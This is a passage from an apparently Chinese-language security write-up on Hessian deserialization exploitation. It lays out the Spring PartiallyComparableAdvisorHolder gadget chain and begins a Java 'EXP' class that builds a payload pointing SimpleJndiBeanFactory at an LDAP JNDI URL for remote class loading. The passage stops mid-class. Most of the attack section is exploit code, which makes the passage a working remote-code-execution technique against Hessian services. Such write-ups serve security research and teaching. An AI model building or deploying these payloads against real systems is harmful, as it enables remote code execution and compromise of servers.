 接下来就是 Rome 链和 JdbcRowSetImpl 链了，其实这里不仅仅可以是 Rome 和 JdbcRowSetImpl，只要通过 HashMap 的 hash 方法触发的链都可以运用

### Spring PartiallyComparableAdvisorHolder 链

#### 利用链

```plain
SimpleJndiBeanFactory.doGetType() (org.springframework.jndi.support)
SimpleJndiBeanFactory.getType() (org.springframework.jndi.support)
BeanFactoryAspectInstanceFactory.getOrder() (org.springframework.aop.aspectj.annotation)
AbstractAspectJAdvice.getOrder (org.springframework.aop.aspectj)
AspectJPointcutAdvisor.getOrder() (org.springframework.aop.aspectj)
AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder.toString() (org.springframework.aop.aspectj.autoproxy)
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()    (org.springframework.aop.target) //可忽略
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.*;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectInstanceFactory;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJPointcutAdvisor;
import org.springframework.aop.aspectj.annotation.BeanFactoryAspectInstanceFactory;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import sun.reflect.ReflectionFactory;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.HashSet;

public class PartiallyComparableAdvisorHolderHessian {
    public static void main(String[] args) throws Exception {
        // ldap url
        String url = "ldap://127.0.0.1:1389/rtj7ss";

        // 创建SimpleJndiBeanFactory
        // String SimpleJndiBeanFactory = "org.springframework.jndi.support.SimpleJndiBeanFactory";
        // Object simpleJndiBeanFactory = Class.forName(SimpleJndiBeanFactory).getDeclaredConstructor(new Class[]{}).newInstance();
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();

        // 可添加
        // HashSet<String> set = new HashSet<>();
        // set.add(url);
        // setFiled(simpleJndiBeanFactory, "shareableResources", set);
        // setFiled(simpleJndiBeanFactory.getJndiTemplate(), "logger", new NoOpLog());

```